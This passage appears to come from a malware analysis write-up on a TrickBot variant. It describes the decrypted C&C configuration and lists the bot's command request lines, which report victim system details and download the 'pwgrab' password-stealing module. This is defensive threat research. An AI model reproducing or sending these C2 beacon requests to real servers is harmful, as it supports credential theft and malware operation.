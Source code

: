 




Figure 5. The encrypted and obfuscated configuration file


Figure 6 shows the C&C server information that was decrypted in a text editor from the file shown in Figure 5. You can see that it contains TrickBot version(1000500), server IP and Port information, and the auto-loaded module “pwgrab”.






Figure 6. Decrypted configuration information


Sending Commands to the C&C Server and Downloading Modules
TrickBot has many commands it can use to communicate with its server, whose IP address and Port are randomly chosen from server configuration data shown in Figure 6. Some of the command content is listed below in chronological order to explain how they work. 
All the commands are in this format: 
/group_ID/Client_ID/command number/other payload information
The group ID is “red4” and the Client_ID is “Mytest01-PC_W617601.46499EE873EAC4080BFC4E488048CEAA” for my test environment.


Command 5: "GET /red4/Mytest01-PC_W617601.46499EE873EAC4080BFC4E488048CEAA/5/spk/"


This is the first packet sent to its C&C server.


Command 0: "GET /red4/Mytest01-PC_W617601.46499EE873EAC4080BFC4E488048CEAA/0/Windows 7 x86 SP1/1086/{my global ip}/2203029355927E4792CADE316791C927FFC55D5E56150F111936DFD52481C7D7/sMU2E48oEOgEGkiGsseiiw4MUqEMq/"


This command submits the victim’s system information and global IP address to the C&C server. The response packet contains another server IP address and Port list for downloading modules.


Command 14: "GET /red4/Mytest01-PC_W617601.46499EE873EAC4080BFC4E488048CEAA/14/user/Mytest01/0/"


This command submits to the server the victim device’s information, such as Logon User Name, network status, and so on.


Command 63: "POST red4/Mytest01-PC_W617601.46499EE873EAC4080BFC4E488048CEAA/63/systeminfo/GetSystemInfo/c3VjY2Vzcw=="


This command tells the server that the “systeminfo” module was a success. “systeminfo”  was a module (no longer a DLL file in this variant) used in other versions to collect system information from the victim’s device and then send it to its server. However, in this variant this module is already integrated into TrickBot.


Command 5: "GET /red4/Mytest01-PC_W617601.46499EE873EAC4080BFC4E488048CEAA/5/pwgrab32/"


This command asks the C&C server to send back the module “pwgrab32”. As you may recall back in figure 6, “pwgrab” was picked from the decrypted configuration file, where it was set as “autorun”. Therefore, it is the first module to be downloaded. My test environment is a 32-bit Windows OS, so the requesting module name is “pwgrab32”, and it is “pwgrab64” for a 64-bit Windows OS. Note that this command is sent to one server of the server IP and Port list based on the response from command 0.
